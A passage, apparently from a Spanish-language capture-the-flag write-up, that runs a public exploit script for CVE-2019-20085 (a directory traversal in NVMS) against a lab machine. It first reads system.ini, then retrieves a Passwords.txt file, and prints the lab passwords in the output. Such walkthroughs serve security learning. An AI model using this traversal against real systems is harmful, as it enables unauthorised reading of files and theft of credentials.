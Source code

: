 ```bash
❯ python3 nvms.py
****************************************************************
**                      ~CVE 2019-20085~                      **
****************************************************************

USAGE  :
        ./nvms.py <TARGET_IP> <TARGET_FILE> [OUT_FILE]
EXAMPLE:
        python nvms.py 195.135.100.10 Windows/system.ini win.ini
```

La herramienta requiere de los parámetros `<TARGET_IP>`,  `<TARGET_FILE>` y  `[OUT_FILE]`; en donde `<TARGET_IP> = 10.10.10.184`,  `<TARGET_FILE> = Users/Nathan/Desktop/Passwords.txt` y  `[OUT_FILE] = Passwords.txt`; así que vamos a ejecutarla.

```bash
❯ python3 nvms.py 10.10.10.184 Windows/system.ini
[+] DT Attack Succeeded
[+] File Content

++++++++++ BEGIN ++++++++++
; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]

++++++++++  END  ++++++++++
❯ python3 nvms.py 10.10.10.184 Users/Nathan/Desktop/Passwords.txt Passwords.txt
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```
